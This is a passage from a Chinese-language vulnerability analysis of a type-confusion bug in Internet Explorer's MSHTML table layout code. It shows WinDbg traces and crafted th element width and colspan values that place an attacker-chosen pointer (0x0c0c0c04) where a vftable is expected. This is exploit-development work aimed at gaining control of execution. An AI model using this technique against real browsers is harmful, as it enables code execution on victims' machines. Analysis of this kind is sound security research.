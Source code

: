 可能大家这个时候有点乱了，下面我将用一个流程图来展示一下结构体的赋值过程。大致就是首先会通过计算获得Width的一个size，计算方法是:Width*100+200，随后，会将这个值保存在一个Array里，这个Array的大小后面会讲到。之后会将这个Array存入一个指针偏移＋0xc的位置，交给FlowBoxBuilder结构体＋0x114的位置。之后，会赋值给TableBoxBuilder结构体＋0x294位置，最后会交给漏洞触发位置申请的堆指针。

[![](./img/85733/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t018a5dec0d574abc00.png)

而经过我们上面的分析，产生漏洞的位置在这个Array+0x4位置，我们也需要通过table的条件控制这个位置的值，才能达到利用。

<br>

**控制Array结构到漏洞利用**

通过上面的跟踪，我们知道了id=th1的Table中的Width可以控制一个Array结构，但是我们也发现Array结构并非单独只包含一个Width计算得到的值。



```
0:007:x86&gt; dd 9bc7038
&lt;th id="th1" colspan="5" width=1000&gt;&lt;/th&gt;//
09bc7038  00000000 00004e48 00009c90 0000ead8
09bc7048  00013920 00018768 a0a0a0a0 a0a0a0a0
```

可以看到，Array结构是有一个大小的，其实，这个Array中存放的值，取决于width，而大小取决于colspan，这个colspan为5的情况下，Array中存放了5个值，而我们需要控制的是Array+0x4这个位置的值，这样的话，我们将colspan的大小修改为1，并且修改Width的值。



```
&lt;th id="th1" colspan="1" width=2021159&gt;&lt;/th&gt;
0:005:x86&gt; t
MSHTML!Layout::Patchable&lt;Layout::PatchableArrayData&lt;Layout::SGridBoxItem&gt; &gt;::Readable:
67afecf4 8b15fc5cb368    mov     edx,dword ptr [MSHTML!_tls_index (68b35cfc)] ds:002b:68b35cfc=00000002
0:005:x86&gt; p
MSHTML!Layout::Patchable&lt;Layout::SharedBoxReferenceDataMembers&gt;::Readable+0x6:
67afecfa 64a12c000000    mov     eax,dword ptr fs:[0000002Ch] fs:0053:0000002c=00000000
0:005:x86&gt; p
MSHTML!Layout::Patchable&lt;Layout::SharedBoxReferenceDataMembers&gt;::Readable+0xc:
67afed00 8b0490          mov     eax,dword ptr [eax+edx*4] ds:002b:008f5dd0=008f0fb8
0:005:x86&gt; dd ecx//ecx存放的是Array
098563c8  00000000 0c0c0c04 a0a0a0a0 a0a0a0a0
```

可以看到，通过修改Width和colspan，我们成功控制了Array+0x4位置的值，这样，在接下来由于TypeConfusion，会将这个int Array当成是vftable pointer返回，并继续执行。



```
0:005:x86&gt; p//Layout::Patchable&lt;Layout::PatchableArrayData&lt;Layout::SGridBoxItem&gt;&gt;::Readable函数
MSHTML!Layout::Patchable&lt;Layout::SharedBoxReferenceDataMembers&gt;::Readable+0x1e:
67afed16 83c010          add     eax,10h
0:005:x86&gt; p
MSHTML!Layout::Patchable&lt;Layout::SharedBoxReferenceDataMembers&gt;::Readable+0x21:
67afed19 c3              ret
0:005:x86&gt; p
MSHTML!Layout::MultiColumnBoxBuilder::HandleColumnBreakOnColumnSpanningElement+0x2c3d36://返回之后，eax成功变成了0c0c0c14的值
683cfc87 833800          cmp     dword ptr [eax],0    ds:002b:0c0c0c14=00000000
```
